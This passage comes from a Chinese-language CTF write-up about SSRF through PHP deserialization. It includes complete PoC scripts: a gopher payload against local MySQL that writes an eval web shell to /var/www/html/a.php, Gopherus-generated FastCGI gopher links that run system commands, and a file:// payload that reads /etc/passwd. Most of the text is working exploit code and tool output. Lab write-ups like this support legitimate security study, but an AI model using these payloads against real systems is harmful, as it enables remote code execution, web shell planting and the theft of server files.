	public $update_url = 'gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%45%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%61%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%22%01%00%00%00%01';
}
class dao{
	private $config;

	public function __construct(){
		$this->config=new config();
	}
}
$a=new dao();
echo base64_encode(serialize($a));

```

url编码后在index.php打入cookie就可以了

# web309

## #SSRF打fastcgi

这道题的话就没法打mysql了，因为mysql用户设置了密码

扫一下端口发现9000端口的暴露的，可以SSRF打fastcgi

```bash
D:\CTFtools\SSRF_Tools\Gopherus-master>python gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  index.php
Terminal command to run:  whoami

Your gopher link is ready to do SSRF:

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

POC

```php
<?php
class config{
    public $update_url ='gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00';
}
class dao{
    private $config;

    public function __construct(){
        $this->config=new config();
    }
}
$a=new dao();
echo base64_encode(serialize($a));

```



# web310

## #SSRF本地文件读取

这次的话没啥服务可以打了，不过可以回归一下最本质的ssrf打本地文件读取

```php
<?php
class config{
    public $update_url = "file:///etc/passwd";
}
class dao{
    private $config;

    public function __construct(){
        $this->config=new config();
    }
}
$a=new dao();
echo base64_encode(serialize($a));
```



试着读取一下nginx的配置文件吧

发现有一个4476的服务

```php
server {
        listen       4476;
        server_name  localhost;
        root         /var/flag;
        index index.html;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
```

尝试SSRF请求一下4476服务



结束
